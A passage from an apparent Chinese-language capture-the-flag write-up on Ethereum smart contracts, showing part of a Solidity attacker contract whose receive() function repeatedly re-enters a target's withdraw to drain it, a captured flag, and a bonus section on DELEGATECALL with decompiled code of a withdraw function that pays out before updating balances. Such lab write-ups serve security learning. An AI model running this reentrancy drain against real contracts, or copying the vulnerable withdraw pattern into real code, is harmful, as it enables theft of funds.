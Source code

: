 ```solidity

    receive() external payable {
        uint targetBalanceRemaining = address(target).balance;
        emit Log("Attacked contract balance:", address(target).balance);
        if(targetBalanceRemaining >= 0.001 ether) {
            target.withdraw(0.001 ether);
        }
    }

    event Log(string message);
    event Log(string message, uint value);
}


```



![image-20241210153325270](C:\Users\11922\AppData\Roaming\Typora\typora-user-images\image-20241210153325270.png)

Here is your flag: ssec2024{R3-EnTR4Ncy_1s_VErY_d4NG3rOUs|81e1da2f}



## bonus

`DELEGATECALL` 是以太坊虚拟机（EVM）中的一个重要操作码，用于在合约间调用函数时保留调用者的上下文（如存储、余额等）。与普通的 `CALL` 不同，`DELEGATECALL` 会在调用方的上下文中执行目标合约的代码，这意味着目标合约可以修改调用合约的存储。



通过反编译工具，我们获得了合约的部分字节码。重点关注以下部分：

- **`DELEGATECALL` 的位置：**
  - 地址 `0x1e1`: `DELEGATECALL`
  - 地址 `0x2d3`: `DELEGATECALL`

```solidity
// Decompiled by library.dedaub.com
// 2024.12.13 02:51 UTC
// Compiled using the solidity compiler version 0.7.6


// Data structures and variables inferred from the use of storage instructions
mapping (address => uint256) _balances; // STORAGE[0x0]



function withdraw(uint256 _amount) public nonPayable {  find similar
    require(msg.data.length - 4 >= 32);
    if (_balances[msg.sender] >= _amount) {
        v0,  v1 = msg.sender.call().value(_amount).gas(msg.gas);
        if (RETURNDATASIZE() != 0) {
            v2 = new bytes[](RETURNDATASIZE());
            v1 = v2.data;
            RETURNDATACOPY(v1, 0, RETURNDATASIZE());
        }
        _balances[msg.sender] = _balances[msg.sender] - _amount;
    }
}

function receive() public payable {  find similar
}

function isSolved() public nonPayable {  find similar
    return this.balance == 0;
}
```